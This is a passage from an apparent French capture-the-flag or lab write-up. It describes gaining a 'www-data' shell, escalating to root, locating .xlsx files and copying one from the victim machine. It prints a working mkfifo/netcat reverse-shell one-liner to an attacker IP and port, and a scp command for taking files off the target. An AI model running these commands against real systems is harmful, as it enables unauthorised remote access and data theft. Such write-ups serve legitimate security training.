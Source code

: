 ![](Aspose.Words.282b0556-3b48-4df1-aa8d-9c63c5779162.059.png)

7. **Exécution de la Commande Netcat pour un Reverse Shell** :
- J'ai exécuté la commande ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.44.134 4444 >/tmp/f``` depuis le PwnyShell.
- Cette commande a créé un reverse shell, me connectant en tant que 'www-data' sur la machine cible.

![](Aspose.Words.282b0556-3b48-4df1-aa8d-9c63c5779162.060.png)

![](Aspose.Words.282b0556-3b48-4df1-aa8d-9c63c5779162.061.png)

8. **Élévation de Privilèges vers Root depuis 'www-data'** :
- Une fois connecté en tant que 'www-data', j'ai utilisé les techniques d'escalade de privilèges précédentes pour passer au compte root.

![](Aspose.Words.282b0556-3b48-4df1-aa8d-9c63c5779162.062.jpeg)

Ces étapes m'ont permis non seulement d'accéder à la machine cible en tant que 'www-data', mais aussi d'escalader mes privilèges pour obtenir un accès root. Cette approche, combinant une série de techniques d'injection, de téléchargement de fichiers malveillants, et d'exploitation de reverse shell, a démontré une compréhension approfondie des vulnérabilités web et des techniques d'escalade de privilèges.

<a name="_page30_x72.00_y146.54"></a>
## Défi #6 : Identification de l'employé Mystère

**Localisation des Fichiers .xlsx**

Une fois connectés en tant que compte root, nous avons utilisé la commande find / -type f -name "\*.xlsx" pour rechercher tous les fichiers se terminant par .xlsx sur la machine.

![](Aspose.Words.282b0556-3b48-4df1-aa8d-9c63c5779162.063.png)

Parmi les fichiers trouvés, l'un d'eux, initialement dans la corbeille, a attiré notre attention. Ce fichier indiquait qu'il était erroné et que la version mise à jour se trouvait sur le bureau du général.

![](Aspose.Words.282b0556-3b48-4df1-aa8d-9c63c5779162.064.png)

**Transfert du Fichier Correct**

Pour accéder au bon fichier, nous avons utilisé la commande SCP pour transférer le fichier .xlsx de la machine victime à notre PC local : scp nomdufichier pseudo@ipdelamachine:emplacementfinal.
